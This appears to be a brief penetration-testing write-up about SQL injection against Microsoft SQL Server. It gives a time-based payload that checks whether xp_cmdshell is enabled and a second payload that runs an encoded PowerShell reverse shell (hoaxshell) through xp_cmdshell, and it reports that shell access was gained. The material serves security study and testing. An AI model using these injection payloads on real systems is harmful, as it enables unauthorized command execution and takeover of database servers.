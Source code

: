 # SQL Payloads

## Payload to Check for xp_cmdshell:
```sql
'; IF EXISTS (SELECT * FROM sys.configurations WHERE name = 'xp_cmdshell' AND value_in_use = 1) WAITFOR DELAY '00:00:05' -- //
```

A five-second delay in the response confirmed its activation. Next, I created a PowerShell payload using hoaxshell:

Hoax Reverse Shell Payload:
```sh
'; EXEC xp_cmdshell 'powershell -e eQBvAHUAcgAtAHAAYQB5AGwAbwBhAGQA...'; -- //
```

Execute it and successfully gain shell access, as you can see in the screenshot.

![img}(https://media.licdn.com/dms/image/D4E22AQEMx7xvCP8YLA/feedshare-shrink_1280/0/1714023914371?e=1726099200&v=beta&t=j-GJQ0LxllbbHyNGD2dQGqsx_NFpRnCP_mQxo5z5GCw)
